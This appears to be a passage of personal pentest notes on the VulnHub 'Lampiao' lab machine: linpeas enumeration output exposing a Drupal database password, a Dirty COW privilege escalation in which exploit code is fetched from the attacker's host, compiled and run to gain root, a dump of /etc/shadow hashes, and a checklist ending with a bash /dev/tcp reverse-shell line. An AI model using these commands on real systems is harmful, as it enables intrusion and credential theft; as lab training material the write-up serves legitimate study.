/var/www/html/modules/search/search-result.tpl.php
/var/www/html/modules/search/search-results.tpl.php
/var/www/html/modules/search/search-rtl.css
/var/www/html/modules/search/search.admin.inc
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/search/tests/UnicodeTest.txt
/var/www/html/modules/search/tests/search_embedded_form.info
/var/www/html/modules/search/tests/search_embedded_form.module
/var/www/html/modules/search/tests/search_extra_type.info
/var/www/html/modules/search/tests/search_extra_type.module
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/shortcut
/var/www/html/modules/shortcut/shortcut-rtl.css
/var/www/html/modules/shortcut/shortcut.admin.css
/var/www/html/modules/shortcut/shortcut.admin.inc
/var/www/html/modules/shortcut/shortcut.admin.js
/var/www/html/modules/shortcut/shortcut.api.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest
/var/www/html/modules/simpletest/drupal_web_test_case.php
/var/www/html/modules/simpletest/files
/var/www/html/modules/simpletest/files/README.txt
/var/www/html/modules/simpletest/files/css_test_files
/var/www/html/modules/simpletest/files/css_test_files/comment_hacks.css
/var/www/html/modules/simpletest/files/css_test_files/comment_hacks.css.optimized.css
/var/www/html/modules/simpletest/files/css_test_files/comment_hacks.css.unoptimized.css
/var/www/html/modules/simpletest/files/css_test_files/css_input_with_import.css
/var/www/html/modules/simpletest/files/css_test_files/css_input_with_import.css.optimized.css
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css
/var/www/html/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css.optimized.css
/var/www/html/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css.unoptimized.css
/var/www/html/modules/simpletest/files/css_test_files/import1.css
/var/www/html/modules/simpletest/files/css_test_files/import2.css
/var/www/html/modules/simpletest/files/html-1.txt
/var/www/html/modules/simpletest/files/html-2.html
/var/www/html/modules/simpletest/files/javascript-1.txt
/var/www/html/modules/simpletest/files/javascript-2.script
/var/www/html/modules/simpletest/files/php-1.txt
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/lib
/var/www/html/modules/simpletest/lib/Drupal
/var/www/html/modules/simpletest/lib/Drupal/simpletest
/var/www/html/modules/simpletest/lib/Drupal/simpletest/Tests
/var/www/html/modules/simpletest/lib/Drupal/simpletest/Tests/PSR0WebTest.php
/var/www/html/modules/simpletest/simpletest.api.php
/var/www/html/modules/simpletest/simpletest.css
/var/www/html/modules/simpletest/simpletest.info
/var/www/html/modules/simpletest/simpletest.install
/var/www/html/modules/simpletest/simpletest.js
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/src/Tests
/var/www/html/modules/simpletest/src/Tests/PSR4WebTest.php
/var/www/html/modules/simpletest/tests
/var/www/html/modules/simpletest/tests/actions.test
/var/www/html/modules/simpletest/tests/actions_loop_test.info
/var/www/html/modules/simpletest/tests/actions_loop_test.install
/var/www/html/modules/simpletest/tests/actions_loop_test.module
/var/www/html/modules/simpletest/tests/ajax.test
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/tests/drupal_autoload_test/drupal_autoload_test.info
/var/www/html/modules/simpletest/tests/drupal_autoload_test/drupal_autoload_test.module
/var/www/html/modules/simpletest/tests/drupal_autoload_test/drupal_autoload_test_class.inc
/var/www/html/modules/simpletest/tests/drupal_autoload_test/drupal_autoload_test_interface.inc
/var/www/html/modules/simpletest/tests/drupal_autoload_test/drupal_autoload_test_trait.sh
/var/www/html/modules/simpletest/tests/drupal_system_listing_compatible_test
/var/www/html/modules/simpletest/tests/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.info
/var/www/html/modules/simpletest/tests/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.module
/var/www/html/modules/simpletest/tests/drupal_system_listing_incompatible_test
/var/www/html/modules/simpletest/tests/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.info
/var/www/html/modules/simpletest/tests/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.module
/var/www/html/modules/simpletest/tests/entity_cache_test.info
/var/www/html/modules/simpletest/tests/entity_cache_test.module
/var/www/html/modules/simpletest/tests/entity_cache_test_dependency.info
/var/www/html/modules/simpletest/tests/entity_cache_test_dependency.module
/var/www/html/modules/simpletest/tests/entity_crud.test
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/tests/psr_0_test/lib
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/ExampleTest.php
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/Nested
/var/www/html/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/Nested/NestedExampleTest.php
/var/www/html/modules/simpletest/tests/psr_0_test/psr_0_test.info
/var/www/html/modules/simpletest/tests/psr_0_test/psr_0_test.module
/var/www/html/modules/simpletest/tests/psr_4_test
/var/www/html/modules/simpletest/tests/psr_4_test/psr_4_test.info
/var/www/html/modules/simpletest/tests/psr_4_test/psr_4_test.module
/var/www/html/modules/simpletest/tests/psr_4_test/src
/var/www/html/modules/simpletest/tests/psr_4_test/src/Tests
/var/www/html/modules/simpletest/tests/psr_4_test/src/Tests/ExampleTest.php
/var/www/html/modules/simpletest/tests/psr_4_test/src/Tests/Nested
/var/www/html/modules/simpletest/tests/psr_4_test/src/Tests/Nested/NestedExampleTest.php
/var/www/html/modules/simpletest/tests/registry.test
/var/www/html/modules/simpletest/tests/requirements1_test.info
/var/www/html/modules/simpletest/tests/requirements1_test.install
/var/www/html/modules/simpletest/tests/requirements1_test.module
/var/www/html/modules/simpletest/tests/requirements2_test.info
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/modules/simpletest/tests/themes/engines
/var/www/html/modules/simpletest/tests/themes/engines/nyan_cat

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                                  
  Group www-data:                                                                                                                                                                                                                                  
/var/www/html/sites/default/files                                                                                                                                                                                                                  
/var/www/html/sites/default/files/styles
/var/www/html/sites/default/files/styles/thumbnail/public/field/image
/var/www/html/sites/default/files/styles/medium/public/field/image
/var/www/html/sites/default/files/styles/large/public/field/image
/var/www/html/sites/default/files/color
/var/www/html/sites/default/files/color/bartik-59b8dda0
/var/www/html/sites/default/files/color/bartik-59b8dda0/colors.css
/var/www/html/sites/default/files/field/image


                            ╔═════════════════════════╗
════════════════════════════╣ Other Interesting Files ╠════════════════════════════                                                                                                                                                                
                            ╚═════════════════════════╝                                                                                                                                                                                            
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                                                                                                                                         
/usr/bin/gettext.sh                                                                                                                                                                                                                                

╔══════════╣ Executable files potentially added by user (limit 70)
2018-04-19+17:08:00.2909068370 /var/crash/.lock                                                                                                                                                                                                    
2018-04-19+16:41:51.5149600600 /var/www/html/sites/default/settings.php
2018-04-19+16:39:33.7469647340 /var/www/html/xmlrpc.php
2018-04-19+16:39:33.7469647340 /var/www/html/web.config
2018-04-19+16:39:33.7429647340 /var/www/html/update.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/stark/stark.info
2018-04-19+16:39:33.7429647340 /var/www/html/themes/stark/screenshot.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/stark/logo.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/stark/layout.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/stark/README.txt
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/vertical-tabs.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/vertical-tabs-rtl.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/template.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/style.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/style-rtl.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/seven.info
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/screenshot.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/reset.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/page.tpl.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/maintenance-page.tpl.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/logo.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/jquery.ui.theme.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/ui-icons-ffffff-256x240.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/ui-icons-888888-256x240.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/ui-icons-454545-256x240.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/ui-icons-222222-256x240.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/task-item.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/task-item-rtl.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/task-check.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/list-item.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/list-item-rtl.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/fc.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/fc-rtl.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/buttons.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/arrow-prev.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/arrow-next.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/arrow-desc.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/arrow-asc.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/images/add.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/ie7.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/ie6.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/seven/ie.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/theme-settings.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/template.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/style.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/style-rtl.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/screenshot.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/print.css
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/page.tpl.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/node.tpl.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/maintenance-page.tpl.php
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/logo.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/task-list.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/menu-leaf.gif
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/menu-expanded.gif
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/menu-collapsed.gif
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/menu-collapsed-rtl.gif
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/gradient-inner.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/body.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-tab.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-navigation.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-navigation-item.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-navigation-item-hover.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-content.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-content-right.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-content-left.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-bar.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/images/bg-bar-white.png
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/garland.info
2018-04-19+16:39:33.7429647340 /var/www/html/themes/garland/fix-ie.css
sort: write failed: standard output: Broken pipe
sort: write error

╔══════════╣ Unexpected in root
/initrd.img                                                                                                                                                                                                                                        
/vmlinuz

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/crash/_usr_sbin_aa-status.33.crash                                                                                                                                                                                                            
/var/log/upstart/lampiao.log
/var/log/kern.log
/var/log/auth.log
/var/log/syslog

logrotate 3.8.7

╔══════════╣ Files inside /home/www-data (limit 20)
                                                                                                                                                                                                                                                   
╔══════════╣ Files inside others home (limit 20)
/home/tiago/.bash_logout                                                                                                                                                                                                                           
/home/tiago/.viminfo
/home/tiago/.bash_history
/home/tiago/.bashrc
/home/tiago/.profile
/var/www/html/LICENSE.txt
/var/www/html/COPYRIGHT.txt
/var/www/html/authorize.php
/var/www/html/themes/stark/screenshot.png
/var/www/html/themes/stark/stark.info
/var/www/html/themes/stark/logo.png
/var/www/html/themes/stark/layout.css
/var/www/html/themes/stark/README.txt
/var/www/html/themes/bartik/screenshot.png
/var/www/html/themes/bartik/template.php
/var/www/html/themes/bartik/templates/page.tpl.php
/var/www/html/themes/bartik/templates/node.tpl.php
/var/www/html/themes/bartik/templates/maintenance-page.tpl.php
/var/www/html/themes/bartik/templates/comment-wrapper.tpl.php
/var/www/html/themes/bartik/templates/comment.tpl.php

╔══════════╣ Searching installed mail applications
                                                                                                                                                                                                                                                   
╔══════════╣ Mails (limit 50)
                                                                                                                                                                                                                                                   
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 610 Apr 19  2018 /etc/xml/catalog.old                                                                                                                                                                                       
-rw-r--r-- 1 root root 673 Apr 19  2018 /etc/xml/xml-core.xml.old
-rw-r--r-- 1 root root 193020 Jul 13  2016 /usr/src/linux-headers-4.4.0-31-generic/.config.old
-rw-r--r-- 1 root root 0 Jul 13  2016 /usr/src/linux-headers-4.4.0-31-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 0 Jul 13  2016 /usr/src/linux-headers-4.4.0-31-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 7867 Oct  2  2012 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 2513 Feb 10  2013 /usr/share/doc/tmux/examples/tmux_backup.sh
-rw-r--r-- 1 root root 10523 Apr 19  2018 /usr/share/info/dir.old
-rw-r--r-- 1 root root 6466 Jul 13  2016 /lib/modules/4.4.0-31-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 root root 6766 Jul 13  2016 /lib/modules/4.4.0-31-generic/kernel/drivers/power/wm831x_backup.ko
-rw-r--r-- 1 root root 4863899 Apr 19  2018 /var/lib/aptitude/pkgstates.old
-rw-r--r-- 1 root root 128 Apr 19  2018 /var/lib/sgml-base/supercatalog.old
-rw-r--r-- 1 root root 198 Apr 19  2018 /var/lib/belocs/hashfile.old

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/mlocate/mlocate.db: regular file, no read permission                                                                                                                                                                                


╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                                                                                                                                         
total 12K
drwxr-xr-x  3 root     root     4.0K Apr 19  2018 .
drwxr-xr-x 13 root     root     4.0K Apr 19  2018 ..
drwxr-xr-x  9 www-data www-data 4.0K Apr 20  2018 html

/var/www/html:
total 3.9M
drwxr-xr-x  9 www-data www-data 4.0K Apr 20  2018 .
drwxr-xr-x  3 root     root     4.0K Apr 19  2018 ..

╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 tiago tiago 220 Apr 19  2018 /home/tiago/.bash_logout                                                                                                                                                                                 
-rw------- 1 root root 0 Aug  3  2016 /etc/.pwd.lock
-rw-r--r-- 1 root root 1376 Apr 19  2018 /etc/apparmor.d/cache/.features
-rw-r--r-- 1 root root 220 Apr  8  2014 /etc/skel/.bash_logout
-rw-r--r-- 1 root root 0 May 23 08:23 /run/network/.ifstate.lock
-rwxrwxrwx 1 root root 0 Apr 19  2018 /var/crash/.lock
-r--r--r-- 1 www-data www-data 476 Apr 19  2018 /var/www/html/sites/default/files/.htaccess

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rwxr-xr-x 1 www-data www-data 860337 Jul  6  2024 /tmp/linpeas.sh                                                                                                                                                                                 

╔══════════╣ Searching passwords in history files
                                                                                                                                                                                                                                                   
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/settings.php:      'password' => 'Virgulino',                                                                                                                                                                          
/var/www/html/sites/default/settings.php: *     'password' => 'password',
/var/www/html/sites/default/settings.php: *   'password' => 'password',

╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/etc/pam.d/common-password                                                                                                                                                                                                                         
/usr/lib/accountsservice/accounts-daemon-pam-password-helper
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/pppd/2.4.5/passwordfd.so
/usr/lib/python2.7/dist-packages/twisted/cred/credentials.py
/usr/lib/python2.7/dist-packages/twisted/cred/credentials.pyc
/usr/share/man/man7/credentials.7.gz
/usr/share/pam/common-password
/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password
/var/www/html/includes/password.inc
/var/www/html/modules/simpletest/tests/password.test
/var/www/html/modules/simpletest/tests/upgrade/drupal-6.user-no-password-token.database.php
/var/www/html/modules/simpletest/tests/upgrade/drupal-6.user-password-token.database.php
/var/www/html/scripts/password-hash.sh

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
                                                                                                                                                                                                                                                   
╔══════════╣ Searching passwords inside logs (limit 70)
 base-passwd depends on libc6 (>= 2.8); however:                                                                                                                                                                                                   
 base-passwd depends on libdebconfclient0 (>= 0.145); however:
2016-08-03 15:23:08 configure base-passwd:i386 3.5.33 3.5.33
2016-08-03 15:23:08 install base-passwd:i386 <none> 3.5.33
2016-08-03 15:23:08 status half-configured base-passwd:i386 3.5.33
2016-08-03 15:23:08 status half-installed base-passwd:i386 3.5.33
2016-08-03 15:23:08 status installed base-passwd:i386 3.5.33
2016-08-03 15:23:08 status unpacked base-passwd:i386 3.5.33
2016-08-03 15:23:10 status half-configured base-passwd:i386 3.5.33
2016-08-03 15:23:10 status half-installed base-passwd:i386 3.5.33
2016-08-03 15:23:10 status unpacked base-passwd:i386 3.5.33
2016-08-03 15:23:10 upgrade base-passwd:i386 3.5.33 3.5.33
2016-08-03 15:23:14 install passwd:i386 <none> 1:4.1.5.1-1ubuntu9
2016-08-03 15:23:14 status half-installed passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:23:14 status unpacked passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:23:17 configure base-passwd:i386 3.5.33 <none>
2016-08-03 15:23:17 status half-configured base-passwd:i386 3.5.33
2016-08-03 15:23:17 status installed base-passwd:i386 3.5.33
2016-08-03 15:23:17 status unpacked base-passwd:i386 3.5.33
2016-08-03 15:23:22 configure passwd:i386 1:4.1.5.1-1ubuntu9 <none>
2016-08-03 15:23:22 status half-configured passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:23:22 status installed passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:23:22 status unpacked passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:24:03 status half-configured passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:24:03 status half-installed passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:24:03 status unpacked passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:24:03 upgrade passwd:i386 1:4.1.5.1-1ubuntu9 1:4.1.5.1-1ubuntu9.2
2016-08-03 15:24:04 configure passwd:i386 1:4.1.5.1-1ubuntu9.2 <none>
2016-08-03 15:24:04 status half-configured passwd:i386 1:4.1.5.1-1ubuntu9.2
2016-08-03 15:24:04 status half-installed passwd:i386 1:4.1.5.1-1ubuntu9
2016-08-03 15:24:04 status installed passwd:i386 1:4.1.5.1-1ubuntu9.2
2016-08-03 15:24:04 status unpacked passwd:i386 1:4.1.5.1-1ubuntu9.2
Description: Set up users and passwords
Preparing to unpack .../base-passwd_3.5.33_i386.deb ...
Preparing to unpack .../passwd_1%3a4.1.5.1-1ubuntu9_i386.deb ...
Selecting previously unselected package base-passwd.
Selecting previously unselected package passwd.
Setting up base-passwd (3.5.33) ...
Setting up passwd (1:4.1.5.1-1ubuntu9) ...
Shadow passwords are now on.
Unpacking base-passwd (3.5.33) ...
Unpacking base-passwd (3.5.33) over (3.5.33) ...
Unpacking passwd (1:4.1.5.1-1ubuntu9) ...
[HOLD] passwd:i386
dpkg: base-passwd: dependency problems, but configuring anyway as you requested:


                                ╔════════════════╗
════════════════════════════════╣ API Keys Regex ╠════════════════════════════════                                                                                                                                                                 
                                ╚════════════════╝                                                                                                                                                                                                 
Regexes to search for API keys aren't activated, use param '-r' 


www-data@lampiao:/tmp$ 
```

## Dirty Cow 2

```bash
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
# Download by using the ext-url you will get a C++ script (40839.cpp)

# On the target machine
www-data@lampiao:/var/www/html$ wget http://192.168.56.52:8000/40847.cpp
wget http://192.168.56.52:8000/40847.cpp
--2025-05-23 17:00:34--  http://192.168.56.52:8000/40847.cpp
Connecting to 192.168.56.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: '40847.cpp'

100%[======================================>] 10,531      --.-K/s   in 0s      

2025-05-23 17:00:34 (275 MB/s) - '40847.cpp' saved [10531/10531]

www-data@lampiao:/var/www/html$

####################
## COMPILE SCRIPT ##
####################


www-data@lampiao:/tmp$ ls -al
ls -al
total 868
drwxrwxrwt  3 root     root       4096 May 23 17:02 .
drwxr-xr-x 21 root     root       4096 Apr 19  2018 ..
-rw-r--r--  1 www-data www-data  10531 May 23 16:45 40847.cpp
-rwxr-xr-x  1 www-data www-data 860337 Jul  6  2024 linpeas.sh
drwx------  2 www-data www-data   4096 May 23 12:44 tmux-33

www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
<-Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil            
www-data@lampiao:/tmp$ ls -al
ls -al
total 908
drwxrwxrwt  3 root     root       4096 May 23 17:05 .
drwxr-xr-x 21 root     root       4096 Apr 19  2018 ..
-rw-r--r--  1 www-data www-data  10531 May 23 16:45 40847.cpp
-rwxr-xr-x  1 www-data www-data  40168 May 23 17:05 dcow
-rwxr-xr-x  1 www-data www-data 860337 Jul  6  2024 linpeas.sh
drwx------  2 www-data www-data   4096 May 23 12:44 tmux-33
www-data@lampiao:/tmp$ 
# We now have a compiled file called dcow


# Run script
www-data@lampiao:/tmp$ ./dcow -s
./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

root@lampiao:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@lampiao:~# cp /tmp/.ssh_bak /etc/passwd
root@lampiao:~# rm /tmp/.ssh_bak
root@lampiao:~# whoami
whoami
root
root@lampiao:~# cd /root
cd /root
root@lampiao:~# ls -al
ls -al
total 40
drwx------  4 root root 4096 Apr 20  2018 .
drwxr-xr-x 21 root root 4096 Apr 19  2018 ..
drwx------  2 root root 4096 Apr 19  2018 .aptitude
-rw-------  1 root root  201 Apr 20  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 20  2018 .cache
-rw-r--r--  1 root root   33 Apr 20  2018 flag.txt
-rw-------  1 root root  149 Apr 19  2018 .mysql_history
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root  669 Apr 20  2018 .viminfo
root@lampiao:~# cat flag.txt
cat flag.txt
9740616875908d91ddcdaa8aea3af366
root@lampiao:~# GG!
GG!
GG!: command not found
root@lampiao:~# 

```





### Bonus

```
root@lampiao:~# cat /etc/shadow
cat /etc/shadow                                                                                                                                                                                                                                    
root:$6$9ErXhqpG$SmL.dOTKiOuHdkLiwoFA7rQu6lNeoVw/QoJZTZlmAqCHFYM9pcv3trm5j0bTnTTjo9YLkbmSYk6T1dBKko/KS0:17641:0:99999:7:::                                          
daemon:*:17016:0:99999:7:::                                             
bin:*:17016:0:99999:7:::                                             
sys:*:17016:0:99999:7:::                                            
sync:*:17016:0:99999:7:::                                           
games:*:17016:0:99999:7:::                                
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
mysql:!:17640:0:99999:7:::
messagebus:*:17640:0:99999:7:::
landscape:*:17640:0:99999:7:::
sshd:*:17640:0:99999:7:::
tiago:$6$GF81EShG$nQkWtVGTDzqDp1jYJNRSHs/PnYztgHPPY3s6dcdf.x.xLxuRiquQtV6GnUB/dQqpPF3xEUoVAat6bFnGadoNM0:17640:0:99999:7:::
root@lampiao:~# 

```


---
---
# VulnHub Pentest Notes - [Lampiao]  
🔍 **Target IP:** `192.168.56.122`  
🖥 **OS:** Linux
📅 **Date of Instalment:** 2025-04-28  
📅 **Date of Completion:** 2025-05-23  ✅☑️☑️🥳🎉🎊☑️☑️✅

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/lampiao-1,249/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=fszVXkU8_kw)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `sudo netdiscover -i eth1 -r <IP>/24`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
	- [ ] Port 22 - SSH
	- [ ] Port 80 - HTTP
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
	- [ ] Port 1898 - HTTP
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

### Reverse Shell Cheatsheet  
```bash
nc -lvnp <PORT>
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1


